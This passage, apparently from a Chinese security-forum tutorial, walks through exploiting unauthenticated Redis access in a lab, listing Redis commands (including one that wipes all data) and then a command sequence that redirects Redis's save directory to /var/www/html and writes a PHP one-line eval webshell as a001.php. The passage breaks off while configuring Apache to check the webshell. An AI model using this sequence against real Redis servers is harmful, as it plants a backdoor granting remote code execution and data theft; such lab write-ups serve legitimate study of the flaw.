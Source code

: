 ```c
1.查看信息：info
2.删除所有数据库內容：flushable
3.刷新数据库：flush
4.看所有键：KEYS*，使用 select nun可以查看键值数据。
5.设置变量：set test“who am i
6.config set dir dirpath设置路径等配置7.config get dir/filename获取路径及数据配置信息
8.save保存
9.get变量，查看变量名称
```

然后呢 我这边用另一台机器Redis-kali-2020.4

进行 Redis未授权访问

这边因为Centos7的网卡 问题 淦

我用两台Redis-kali-2020.4进行未授权测试一下

可以看到 直接就进来了

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1e837b3e2f351cb7e28f214fb9df589c3efd5ca1.png)

0x03 Redis写入webshell
--------------------

既然进来了嘛

```c
config set dir /var/www/html///切换目录到网站的根目录set x &amp;quot;\n\n\n&amp;lt;?php phpinfo();?&amp;gt;\n\n\n&amp;quot;//写入恶意代码phpinfo()set xx &amp;quot;\n\n\n&amp;lt;?php @e val($_POST['1']);?&amp;gt;\n\n\n&amp;quot;//写入一句话木马config set dbfilename a001.php//磁盘中生成木马文件a001.phpsave//进行保存
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c5584c4a0d59e7efd88ae8c05b2a2044626d0bc4.png)

可以去靶机看一下

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-853ce60f5a606d32e5ecb2e567187b980d735496.png)

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-77e1d4a64577696b1ca9f10426cf4d22b555f4e0.png)

可以看到 被成功写入了

检查webshell

kali开启apache2

```c
vi /etc/apache2/ports.conf
```

修改默认端口为8080

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3920db539b74cf9bbfeface1ee5174c5cfee4d6a.png)  
保存退出

启动apache2服务
